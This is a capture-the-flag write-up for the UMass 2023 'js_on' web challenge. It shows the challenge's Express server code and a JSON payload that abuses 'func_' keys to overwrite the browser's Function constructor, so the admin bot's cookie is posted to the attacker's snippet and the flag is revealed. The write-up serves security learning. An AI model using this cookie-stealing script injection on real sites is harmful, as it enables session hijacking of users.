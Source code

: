 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>The Bot website</p></figcaption></figure>

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:

{% code overflow="wrap" %}
```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```
{% endcode %}

Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:

{% code overflow="wrap" %}
```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```
{% endcode %}
